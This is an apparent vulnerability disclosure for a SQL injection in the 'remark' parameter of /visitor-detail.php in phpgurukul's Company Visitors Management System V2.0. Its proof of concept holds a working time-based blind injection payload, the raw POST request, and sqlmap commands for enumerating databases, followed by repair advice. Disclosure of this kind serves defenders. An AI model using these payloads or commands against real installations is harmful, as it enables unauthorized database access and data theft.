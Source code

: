 # phpgurukul Company Visitors Management System Project V2.0 /visitor-detail.php SQL injection

# NAME OF AFFECTED PRODUCT(S)

- Company Visitors Management System

## Vendor Homepage

- https://phpgurukul.com/company-visitor-management-system-using-php-and-mysql/

# AFFECTED AND/OR FIXED VERSION(S)

## submitter

- Rmyxx

## Vulnerable File

- /visitor-detail.php

## VERSION(S)

- V2.0

## Software Link

- https://phpgurukul.com/?sdm_process_download=1&download_id=9602

# PROBLEM TYPE

## Vulnerability Type

- SQL injection

## Root Cause

- A SQL injection vulnerability was identified within the "/visitor-detail.php" file of the "Company Visitors Management System" project. The root cause lies in the fact that attackers can inject malicious code via the parameter "remark". This input is then directly utilized in SQL queries without undergoing proper sanitization or validation processes. As a result, attackers are able to fabricate input values, manipulate SQL queries, and execute unauthorized operations.

## Impact

- Exploiting this SQL injection vulnerability allows attackers to gain unauthorized access to the database, cause sensitive data leakage,  tamper with data, gain complete control over the system, and even  disrupt services. This poses a severe threat to both the security of the system and the continuity of business operations.

# DESCRIPTION

- During the security assessment of "Company Visitors Management System", I detected a critical SQL injection vulnerability in the  "/visitor-detail.php" file. This vulnerability is attributed to the  insufficient validation of user input for the "remark" parameter. This  inadequacy enables attackers to inject malicious SQL queries.  Consequently, attackers can access the database without proper  authorization, modify or delete data, and obtain sensitive information.  Immediate corrective actions are essential to safeguard system security  and uphold data integrity.

# Vulnerability details and POC

## Vulnerability location:

- "remark" parameter

## Payload:

python sqlmap.py -r 1.txt

```
Here are the results of sqlmap：



sqlmap identified the following injection point(s) with a total of 82 HTTP(s) requests:
---
Parameter: remark (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: remark=1' AND (SELECT 6032 FROM (SELECT(SLEEP(5)))hLqu) AND 'aEXs'='aEXs&submit=
---
[12:27:45] [INFO] the back-end DBMS is MySQL
[12:27:45] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions
web application technology: Apache 2.4.39, PHP 8.0.2
back-end DBMS: MySQL >= 5.0.12
[12:27:45] [INFO] fetched data logged to text files under 'C:\Users\Rmyxx\AppData\Local\sqlmap\output\cve'
[12:27:45] [WARNING] your sqlmap version is outdated

[*] ending @ 12:27:45 /2025-06-05/

```

​     the following is 1.txt

```
1.txt




POST /cvms/visitor-detail.php?editid=6 HTTP/1.1
Host: cve
Accept-Encoding: gzip, deflate
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Origin: http://cve
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Upgrade-Insecure-Requests: 1
Referer: http://cve/cvms/visitor-detail.php?editid=6
Cookie: PHPSESSID=ej2ktjpp7a1uoqlri33h16tfkn
Content-Length: 16

remark=1&submit=
```



## Vulnerability Request Packet

```
POST /cvms/visitor-detail.php?editid=6 HTTP/1.1
Host: cve
Accept-Encoding: gzip, deflate
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Origin: http://cve
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Upgrade-Insecure-Requests: 1
Referer: http://cve/cvms/visitor-detail.php?editid=6
Cookie: PHPSESSID=ej2ktjpp7a1uoqlri33h16tfkn
Content-Length: 16

remark=1&submit=
```

​      

## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:



```
python sqlmap.py -r 1.txt -p remark
```

![image-20250605123225477](C:\Users\Rmyxx\AppData\Roaming\Typora\typora-user-images\image-20250605123225477.png)

```
python sqlmap.py -r 1.txt -p remark --dbs
```



![image-20250605123157464](C:\Users\Rmyxx\AppData\Roaming\Typora\typora-user-images\image-20250605123157464.png)

# Suggested repair

1. **Employ prepared statements and parameter binding:**
    Prepared statements serve as an effective safeguard against SQL  injection as they segregate SQL code from user input data. When using  prepared statements, user - entered values are treated as mere data and  will not be misconstrued as SQL code.
2. **Conduct input validation and filtering:**
    Rigorously validate and filter user input data to guarantee that it  conforms to the expected format. This helps in blocking malicious input.
3. **Minimize database user permissions:**
    Ensure that the account used to connect to the database has only the  minimum required permissions. Avoid using accounts with elevated  privileges (such as 'root' or 'admin') for day - to - day operations.